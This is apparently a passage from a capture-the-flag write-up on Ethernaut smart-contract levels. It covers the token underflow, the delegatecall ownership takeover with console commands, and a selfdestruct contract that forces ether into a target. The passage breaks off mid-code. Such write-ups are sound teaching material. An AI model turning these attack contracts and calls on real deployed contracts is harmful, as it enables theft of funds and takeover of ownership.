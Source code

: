 Find the attack contract below :

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IToken {
    function balanceOf(address _owner) external view returns (uint balance);

    function transfer(address _to, uint _value) external returns (bool);
}
```

If this contract is deployed at the instance address, and 21 tokens are transferred to any random address, we will gain a huge number of tokens and hence complete the challenge.

___
## Level 6 [Delegation]

This level is about using delegatecall, which is a lowlevel function in solidity. When contract A executes delegatecall to contract B, B's code is executed with contract A's storage, msg.sender and msg.value. This is a very useful tool that can be used to load code into already running contracts in the blockchain.

To complete the level, we will need to claim ownership of the delegation contract. If we look at the code, we will notice that inside the fallback function, a delegate has already been setup to the delegate contract.

```solidity
  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
```
So, we will just need to execute the fallback function and call the `pwn()` function from the delegate contract. We can do this ba making a low-level transaction in remix or in the developer console and passing the encoded function signature for `pwn()` as the msg.data. This can be done in remix in a contract using `abi.encodeWithSignature("<function name>", inputs)`, or in the developer console using the web3 library - `web3.eth.abi.encodeFunctionSignature(functionName)`.

I completed this challenge using the developer console. Find the list of commands below :

```javascript
await web3.eth.abi.encodeFunctionSignature("pwn()");

await contract.sendTransaction({data: "0xdd365b8b"});
```

___
## Level 7 [Force]

This level shows the utility of the self-destruct that can be used to force send ether to any contract. If we create a contract with some balance, and then self-destruct it, while passing the instance address as the argument to `selfdestruct()`, we will be able to forcefully send ether to the challenge contract even though it doesn’t have a fallback or receive function.
Find the attack contract below :
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract hack {
    constructor () payable {}

    function kill(address _to) public {
        selfdestruct(payable(_to));
```